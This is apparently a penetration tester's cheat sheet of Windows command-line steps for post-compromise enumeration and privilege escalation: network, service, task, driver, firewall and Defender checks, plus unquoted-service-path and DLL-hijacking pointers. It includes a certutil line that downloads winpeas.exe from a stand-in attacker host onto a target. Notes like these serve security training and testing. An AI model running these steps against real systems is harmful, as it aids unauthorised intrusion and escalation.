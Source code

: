   ```cmd
  # list drives

  where -R C:\Windows wsl.exe
  # search for windows subsystem for linux
  # you can also search for bash.exe

  ipconfig /all
  
  arp -a
  # check arp tables

  route print
  # check routing tables

  netstat -ano
  # lists listening ports on target system

  schtasks /query /fo LIST /v
  # lists scheduled tasks

  driverquery
  # installed drivers

  sc queryex type=service
  # service enum

  sc query windefend
  # check for Windows Defender

  netsh advfirewall firewall dump
  netsh firewall show state
  netsh firewall show config
  # firewall enumeration

  wmic product
  # prints info on product

  wmic product get name,version,vendor
  # filter output

  wmic service list brief
  # all services

  wmic service list brief | findstr "Running"
  # filter output

  sc qc service
  # prints info on service

  certutil.exe -urlcache -f http://attacker.com/winpeas.exe winpeas.exe
  # fetch file from attacker machine to target - like wget or curl

  # check for DLL hijacking vulns using ProcMon

  # check for unquoted service path vuln
  # requires permission to write to a folder on the path and to restart the service

  wmic service get name,displayname,pathname,startmode
  # check running services with unquoted paths

  sc qc unquotedsvc
  # check binary path of service

  ```